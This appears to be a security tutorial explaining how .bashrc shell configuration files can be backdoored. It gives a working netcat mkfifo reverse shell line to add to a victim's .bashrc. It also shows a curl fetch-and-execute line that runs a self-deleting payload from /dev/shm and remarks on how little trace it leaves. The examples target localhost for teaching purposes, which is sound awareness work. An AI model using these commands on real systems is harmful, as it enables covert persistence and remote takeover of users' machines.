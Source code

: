 As always, when researching custom `.bashrc`, `.zshrc`, or other shell configurations, *be absolutely sure you've reviewed the code before dropping it into a system*. These files make great targets for reverse connections and code execution, as they function like shell scripts. Anything with write access to these files can backdoor them.

Here are two practical examples you can try using localhost (these are not meant to harm your system, but it's always recommended to do things like this in a test environment such as a VM).


### Reverse Shell

This uses `netcat` to simulate a reverse shell.

On our "server" or the attacker's machine waiting to receive a connection:
```bash
nc -nvlp 1234 -s 127.0.1.1
```

On our "client", this line is added to the victim machine's .bashrc file:
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -nv 127.0.1.1 1234 > /tmp/f
```

Running `source ~/.bashrc`, you'll notice the listener on the "attacker" side now has a shell on your system.


### Profile Backdoor

To be more realistic we'll use a python webserver to host a payload and `curl` to download it to memory and execute it.

We'll write a payload to delete itself silently after spawning `gnome-calculator`.

First `cd` to `~/Public` and write the following text to a file named `test.sh`:

```bash
#!/bin/bash

gnome-calculator&
rm "$0"
```

Then start our webserver using python's built in http.server module:

```bash
python3 -m http.server 1234 --bind 127.0.1.1
```

Now on the "victim" side, add the following line to the bottom of your `~/.bashrc` file:

```bash
curl -s http://127.0.1.1:1234/test.sh > /dev/shm/test.sh; chmod +x /dev/shm/test.sh; /dev/shm/test.sh
```

As soon as you `source ~/.bashrc` or open a new terminal tab / window, `gnome-calculator` will spawn. You'll also notice:

- No trace of `test.sh` in `/dev/shm/`
- Aside from the obvious `gnome-calculator` window, the terminal window has full focus and did not print any errors or messages
- `ps axjf` shows `gnome-calculator` spawned as though you ran it yourself, there's not process tree of `curl` > `/bin/bash` > `gnome-calculator`
